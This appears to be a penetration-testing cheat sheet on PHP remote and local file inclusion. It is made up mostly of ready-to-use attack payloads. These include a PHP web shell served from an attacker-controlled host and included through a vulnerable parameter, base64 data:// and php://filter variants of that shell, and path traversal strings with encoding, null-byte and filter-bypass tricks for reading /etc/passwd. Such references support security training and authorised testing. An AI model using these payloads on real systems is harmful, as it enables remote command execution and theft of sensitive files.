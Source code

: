 ```yaml
---
icon: file-code
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: false
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# File Inclusion

## Remote File Inclusion (RFI)

If we find a way to include a remote file, we could try to include php code to execute commands on the host

```powershell
http://<target>/index.php?page=http://<attacker>/shell.txt
```

We could serve a malicious PHP code so that the host interprets it.

```bash
echo '<?php system($_GET["cmd"]);?>' > shell.txt
python3 -m http.server 80
curl 'http://<target>/index.php?page=http://<attacker>/shell.txt&cmd=<comand>'
```

If the server were blocking access to external resources, we could try using the `data://` wrapper to inject PHP code as base64.

{% code overflow="wrap" %}
```powershell
data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K

php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7Pz4K
```
{% endcode %}

## Local File Inclusion (LFI)

### Absolute Path

```powershell
http://<target>/index.php?page=/etc/passwd
```

### Relative Path Traversal

```powershell
http://<target>/index.php?page=../../../etc/passwd
```

### Null Byte

```powershell
http://<target>/index.php?page=../../../etc/passwd%00
```

### Encoding

```powershell
http://<target>/index.php?page=%252e%252e%252fetc%252fpasswd
http://<target>/index.php?page=%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd
```

### Truncation

```powershell
http://<target>/index.php?page=../../../etc/passwd......[ADD MORE]
http://<target>/index.php?page=../../../[ADD MORE]../../../etc/passwd
```

### Filtered characters

```powershell
http://<target>/index.php?page=....//....//....//etc/passwd
```

## References

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)\
[https://book.hacktricks.xyz/pentesting-web/file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
